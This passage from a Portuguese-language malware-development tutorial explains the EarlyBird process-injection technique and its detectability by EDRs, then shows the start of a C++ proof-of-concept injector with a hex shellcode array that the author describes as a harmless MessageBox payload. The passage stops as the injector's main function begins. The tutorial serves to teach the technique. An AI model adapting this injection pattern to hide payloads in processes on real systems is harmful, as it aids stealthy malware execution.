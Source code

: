 > Por criar um processo em modo suspenso, a injeção EarlyBird pode ter um nível de detecção maior soluções mais sofisticadas, como EDRs.

Vamos analisar a construção do [código](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Examples/EarlyBird%20Injector).

#### EarlyBird Injector
O código a seguir é uma *proof-of-concept* da técnica EarlyBird.

Utilizaremos as funções com protótipos definidos nos headers `windows.h` e `iostream` para a construção do injetor e funcionamento auxiliar, como escrita de mensagens.

Também iremos definir uma variável global para guardar nosso shellcode x64 - como no caso anterior, apenas um shellcode não malicioso que utiliza MessageBox.

```cpp
#include <iostream>
#include <windows.h>

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

A primeira coisa que o código da função *main* apresenta é a possibilidade de usarmos o injetor em qualquer processo. Para isso, o código abaixo apresenta a implementação que permite especificar o caminho completo até o EXE vítima através da linha de comando.
